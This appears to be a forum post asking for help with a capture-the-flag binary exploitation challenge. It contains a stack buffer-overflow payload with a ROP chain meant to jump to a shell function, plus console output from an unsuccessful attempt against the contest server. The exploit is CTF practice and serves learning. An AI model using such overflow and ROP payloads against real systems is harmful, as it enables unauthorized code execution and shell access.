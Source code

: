 ```
|       || | _ | ||  |  | ||       ||  | |  ||       ||       ||    _ |  
|    _  || || || ||   |_| ||_     _||  | |  ||_     _||   _   ||   | ||  
|   |_| ||       ||       |  |   |  |  |_|  |  |   |  |  | |  ||   |_||_
|    ___||       ||  _    |  |   |  |       |  |   |  |  |_|  ||    __  |
|   |    |   _   || | |   |  |   |  |       |  |   |  |       ||   |  | |
|___|    |__| |__||_|  |__|  |___|  |_______|  |___|  |_______||___|  |_|

=========================================================================
                         Stage 3: Call Me Maybe?
=========================================================================
Enter Contact => Calling AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA@...
[*] Got EOF while reading in interactive
```

Maybe there is something wrong with my payload?

So far if I only call the shell function, and the `ret` ROP gadget at `0x000000000040055e` the code still functions like how it does locally on my computer.

Payload Used:
```
contact = b"A"*64 # Padding for the variable contact
padding = b"A"*8 # Bruteforce the requred extra padding before it doesn't crash

## ROP Gadgets
ropchain = b""
ropchain += p64(0x000000000040055e) # Does nothing except ret lmao
ropchain += p64(0x000000000040055e) # Does nothing except ret lmao
ropchain += p64(0x00000000004006ea) # shell()
ropchain += p64(0x00000000004006ea) # shell()

payload = contact + padding + ropchain
```

```
terminals database is inaccessible
Warning: _curses.error: setupterm: could not find terminfo database

Terminal features will not be available.  Consider setting TERM variable to your current terminal name (or xterm).
[x] Opening connection to 3qo9k5hk5cprtqvnlkvotlnj9d14b7mt.ctf.sg on port 30201
[x] Opening connection to 3qo9k5hk5cprtqvnlkvotlnj9d14b7mt.ctf.sg on port 30201: Trying 134.209.101.182
[+] Opening connection to 3qo9k5hk5cprtqvnlkvotlnj9d14b7mt.ctf.sg on port 30201: Done
88
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA^\x05@\x00\x00\x00\x00\x00\xea\x06@\x00\x00\x00\x00\x00'
[*] Switching to interactive mode
 _______  _     _  __    _  _______  __   __  _______  _______  ______   
|       || | _ | ||  |  | ||       ||  | |  ||       ||       ||    _ |  
|    _  || || || ||   |_| ||_     _||  | |  ||_     _||   _   ||   | ||  
|   |_| ||       ||       |  |   |  |  |_|  |  |   |  |  | |  ||   |_||_
|    ___||       ||  _    |  |   |  |       |  |   |  |  |_|  ||    __  |
|   |    |   _   || | |   |  |   |  |       |  |   |  |       ||   |  | |
|___|    |__| |__||_|  |__|  |___|  |_______|  |___|  |_______||___|  |_|

=========================================================================
                         Stage 3: Call Me Maybe?
=========================================================================
Enter Contact => Calling AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA^@...
Unauthorized.
Unauthorized.
[*] Got EOF while reading in interactive
```